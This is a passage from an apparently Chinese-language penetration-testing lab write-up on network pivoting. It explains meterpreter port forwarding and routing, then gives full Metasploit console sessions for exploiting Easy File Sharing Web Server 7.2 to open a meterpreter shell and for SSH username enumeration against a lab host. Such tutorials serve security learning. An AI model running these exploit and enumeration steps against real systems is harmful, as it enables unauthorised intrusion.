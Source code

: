 其中-L只能设置为攻击者的ip,不能设置为肉鸡的ip,-L设置的ip可以是攻击者的内网ip,-r也可以是目标的内网ip,两个内网之 间通过meterpreter会话的"隧道"来连通,如果-L后设置的ip是攻击者的内网ip,-r后设置的是目标机器的内网ip,portfwd通过 meterpreter会话连通两台,-l是指攻击者的监听端口,运行完上面的portfwd add -L 172.16.0.20 -l 2323 -p 80 -r 7.7.7.20 命令后,Attacker的2323端口将变成监听状态(也即Attacker会开启2323端口) 这里还要注意route add命令只能是在meterpreter会话中有效,不能系统全局有效,笔者认为route add也是通过meterpreter会 话的"隧道"来实现攻击者能够访问目标机器其他网段机器的,也即在上面的Attacker通过portfwd来实现访问目标机器其他网段 机器而不能因为在portfwd模块运行前由于已经运行了route add模块而由Attacker的浏览器直接访问目标7.7.7.20:80,因为 route add只会给msf的模块提供meterpreter会话通道作为代理服务,只有meterpreter会话下可用的模块可以直接访问7.7.7.x 网段,Attacker的浏览器想直接访问7.7.7.20需要使用proxychins和msf开启的sock4代理.

上面访问得到目标机器JC的80端口信息看出JC运行的是Eash File Sharing Web Server,可用msf中的模块尝试getshell,操作如 下(如果没有在meterpreter中添加路由msf是访问不到7.7.7.20的):

```
msf  &gt; use exploit/windows/http/easyfilesharing_seh 
msf exploit(easyfilesharing_seh) &gt; show options 
Module options (exploit/windows/http/easyfilesharing_seh):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  80               yes       The target port
Exploit target:
   Id  Name
   --  ----
   0   Easy File Sharing 7.2 HTTP
msf exploit(easyfilesharing_seh) &gt; set rhost 7.7.7.20
rhost =&gt; 7.7.7.20msf exploit(easyfilesharing_seh) &gt; set payload windows/meterpreter/bind_tcp
payload =&gt; windows/meterpreter/bind_tcp
msf exploit(easyfilesharing_seh) &gt; run
[*] Started bind handler
[*] 7.7.7.20:80 - 7.7.7.20:80 - Sending exploit...
[+] 7.7.7.20:80 - Exploit Sent
[*] Sending stage (957999 bytes) to 7.7.7.20
[*] Meterpreter session 2 opened (172.16.0.20-172.16.0.11:0 -&gt; 7.7.7.20:4444) at 2016-12-26 14:21:11 +0300
```

或者从JC(7.7.7.20)22端口入手:

```
msf &gt; use auxiliary/scanner/ssh/ssh_enumusers 
msf auxiliary(ssh_enumusers) &gt; set rhosts 7.7.7.20rhosts =&gt; 7.7.7.20msf auxiliary(ssh_enumusers) &gt; set rport 22rport =&gt; 22msf auxiliary(ssh_enumusers) &gt; set user_file /usr/share/wordlists/metasploit/default_users_for_services_unhash.txt
user_file =&gt; /usr/share/wordlists/metasploit/default_users_for_services_unhash.txt
msf auxiliary(ssh_enumusers) &gt; run
[*] 7.7.7.20:22 - SSH - Checking for false positives
[*] 7.7.7.20:22 - SSH - Starting scan
[+] 7.7.7.20:22 - SSH - User 'admin' found
[-] 7.7.7.20:22 - SSH - User 'root' not found
[-] 7.7.7.20:22 - SSH - User 'Administrator' not found
[+] 7.7.7.20:22 - SSH - User 'sysadm' found
[-] 7.7.7.20:22 - SSH - User 'tech' not found
[-] 7.7.7.20:22 - SSH - User 'operator' not found
[+] 7.7.7.20:22 - SSH - User 'guest' found
[-] 7.7.7.20:22 - SSH - User 'security' not found
[-] 7.7.7.20:22 - SSH - User 'debug' not found
[+] 7.7.7.20:22 - SSH - User 'manager' found
[-] 7.7.7.20:22 - SSH - User 'service' not found
[-] 7.7.7.20:22 - SSH - User '!root' not found
[+] 7.7.7.20:22 - SSH - User 'user' found
[-] 7.7.7.20:22 - SSH - User 'netman' not found
[+] 7.7.7.20:22 - SSH - User 'super' found
[-] 7.7.7.20:22 - SSH - User 'diag' not found
[+] 7.7.7.20:22 - SSH - User 'Cisco' found
[-] 7.7.7.20:22 - SSH - User 'Manager' not found
[+] 7.7.7.20:22 - SSH - User 'DTA' found
[-] 7.7.7.20:22 - SSH - User 'apc' not found
```